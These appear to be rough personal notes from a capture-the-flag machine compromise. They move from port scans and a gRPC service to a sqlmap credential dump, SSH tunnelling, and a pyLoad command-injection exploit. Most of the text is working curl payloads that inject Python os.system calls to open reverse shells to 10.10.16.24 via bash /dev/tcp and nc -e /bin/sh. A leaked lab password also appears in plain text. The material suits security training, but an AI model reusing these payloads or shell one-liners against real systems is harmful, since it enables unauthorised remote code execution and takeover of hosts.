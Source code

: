 PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91bf44edea1e3224301f532cea71e5ef (RSA)
|   256 8486a6e204abdff71d456ccf395809de (ECDSA)
|_  256 1aa89572515e8e3cf180f542fd0a281c (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel



PORT      STATE SERVICE
22/tcp    open  ssh
50051/tcp open  unknown


PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:8.2p1: 
|       CVE-2020-15778  6.8     https://vulners.com/cve/CVE-2020-15778
|       C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3    6.8     https://vulners.com/githubexploit/C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3      *EXPLOIT*
|       10213DBE-F683-58BB-B6D3-353173626207    6.8     https://vulners.com/githubexploit/10213DBE-F683-58BB-B6D3-353173626207      *EXPLOIT*
|       CVE-2020-12062  5.0     https://vulners.com/cve/CVE-2020-12062
|       CVE-2021-28041  4.6     https://vulners.com/cve/CVE-2021-28041
|       CVE-2021-41617  4.4     https://vulners.com/cve/CVE-2021-41617
|       CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
|       CVE-2016-20012  4.3     https://vulners.com/cve/CVE-2016-20012
|_      CVE-2021-36368  2.6     https://vulners.com/cve/CVE-2021-36368
50051/tcp open  unknown

none o fwhich give us rce

![](20230618140630.png)

└─$ gobuster dir --url http://10.10.11.214:50051 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.214:50051
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/18 19:19:36 Starting gobuster in directory enumeration mode
===============================================================

Error: error on running gobuster: unable to connect to http://10.10.11.214:50051/: Get "http://10.10.11.214:50051/": net/http: HTTP/1.x transport connection broken: malformed HTTP status code "\x00\xfe\x03\x00\x00\x00\x01\x00\x00\x04\b\x00\x00\x00\x00\x00\x00?\x00\x00"


gobuster not working

https://www.youtube.com/watch?v=fGG7BMS-RZI

rustscan can be better than nmap

50051 is grpc

grpccui

can expose the methods

admin user exists

through sqlmap sau:HereIsYourPassWord1431

sqlmap -r req --batch --dump

ss -tn1

curl http://127.0.0.1:8000


we see that there is website running at 8000
we can port forward

ssh -L 9000:127.0.0.1:8000 sau@10.10.11.214

![](20230618200124.png)


we have an arbitary command execution vuln

```
curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:9000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'
```

HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Mon, 19 Jun 2023 00:04:39 GMT
Server: Cheroot/8.6.0

Could not decrypt key   


curl -i -s -k -X $'POST' \
    --data-binary $'jk=%0Apyimport%20os%3Bos.system(%22.%2Ftmp%2Fscript.sh%22)%3Bf%3Dfunction%20f2()%7B%7D%3B%0Af=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"nc%2010.10.16.24%201234");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.24/1234 0>&1'");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.24%2F9001%200%3E%261%27%0A



curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.24%2F9001%200%3E%261%27%0A
");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'


%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.24%2F9001%200%3E%261%27%0A

curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.24%2F9001%200%3E%261%27%0A");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=pyimport%20os%3Bos.system(%22.%2Ftmp%2Fscript.sh%22)%3Bf%3Dfunction%20f2()%7B%7D%3B;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'


pyimport os;os.system("./tmp/script.sh");f=function f2(){};

pyimport os;os.system("nc 10.10.16.24 1234");
pyimport%20os%3Bos.system(%22nc%2010.10.16.24%201234%22)%3B

# trying netcat as /dev/tcp doesnot exists

nc -e /bin/sh 10.10.16.24 1234
pyimport%20os;os.system("nc%20-e%20/bin/sh%2010.10.16.24%201234");
pyimport%20os%3Bos.system(%22nc%20-e%20%2Fbin%2Fsh%2010.10.16.24%201234%22)%3B%0A

curl -i -s -k -X $'POST' \
    --data-binary $'jkpyimport%20os%3Bos.system(%22nc%2010.10.16.24%201234%22)%3Bf=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

### new attempt
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"bash%20/tmp/bash.sh\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:9000/flash/addcrypted2'

wwe had to createa  bash.sh at the system

![](20230620002815.png)

pwnd